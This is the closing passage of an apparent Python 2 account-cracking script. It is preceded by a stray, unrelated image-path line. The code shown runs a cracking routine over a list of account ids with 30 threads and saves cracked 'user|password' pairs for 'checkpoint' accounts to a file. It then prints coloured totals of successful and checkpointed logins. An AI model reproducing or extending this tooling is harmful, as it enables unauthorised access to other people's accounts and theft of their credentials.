																	cek.write(user+"|"+pass7+"\n")

																	cek.close()

																	cekpoint.append(user+pass7)

																	

															

		except:

			pass

		

	p = ThreadPool(30)

	p.map(main, id)

	print 42*"\033[1;96m="

	print '\033[1;96m[\033[1;97m \033[1;96m] \033[1;92mProcess Has Been Completed \033[1;97m....'

	print"\033[1;96m[+] \033[1;92mTotal OK\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))

	print("\033[1;96m[+] \033[1;92mCP File Has Been Saved \033[1;91m: \033[1;97mout/checkpoint.txt")

	raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")

	menu()

if __name__ == '__main__':

	login()
